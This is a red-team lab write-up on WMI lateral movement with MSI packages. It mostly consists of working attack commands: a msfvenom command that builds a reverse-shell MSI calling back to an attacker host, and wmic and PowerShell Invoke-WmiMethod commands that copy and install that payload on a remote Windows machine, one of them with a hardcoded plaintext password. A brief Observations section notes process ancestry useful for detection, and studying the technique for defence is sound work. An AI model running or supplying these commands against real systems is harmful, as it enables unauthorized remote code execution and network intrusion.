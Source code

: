 ```yaml
---
description: WMI lateral movement with .msi packages
---
```


# WMI + MSI Lateral Movement

## Execution

Generating malicious payload in MSI \(Microsoft Installer Package\):

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

I had to revert to a filthy way of achieving the goal:

{% code title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode %}

![](../../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of be achieved using powershell cmdlets:

{% code title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode %}

Get a prompt for credentials:

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% code title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

